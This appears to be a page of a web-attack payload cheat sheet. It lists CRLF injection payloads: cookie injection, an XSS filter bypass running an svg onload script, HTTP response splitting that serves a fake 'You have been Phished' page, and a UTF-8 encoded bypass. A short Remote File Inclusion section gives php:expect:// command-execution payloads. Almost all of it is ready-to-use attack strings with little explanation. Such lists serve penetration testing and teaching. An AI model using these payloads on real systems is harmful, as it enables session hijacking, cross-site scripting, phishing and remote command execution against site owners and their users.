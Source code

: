 #### [source](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
--------------------------------------------------------------------------------
# CRLF common payloads

### Add a cookie
`request`
```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```
`response`
```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```
### XSS bypass
```http
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```
### HTML
```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
### UTF-8 encoded payload
```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```
--------------------------------------------------------------------------------

# Remote File Inclusion (RFI)

#### Common payloads
`php:expect://id`

`php:expect://whoami`
